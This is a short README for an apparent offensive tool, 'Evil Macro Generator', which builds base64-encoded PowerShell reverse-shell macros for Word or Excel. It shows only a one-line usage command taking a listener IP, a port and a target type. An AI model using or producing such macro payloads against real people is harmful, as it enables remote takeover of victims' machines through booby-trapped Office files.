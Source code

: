 # Evil Macro Generator
## Generate a funny little macro for reverse shell in PowerShell using base64 for Word or Excel.

```
python evil_macro.py -l <ip> -p <port> -t <e or w>
```
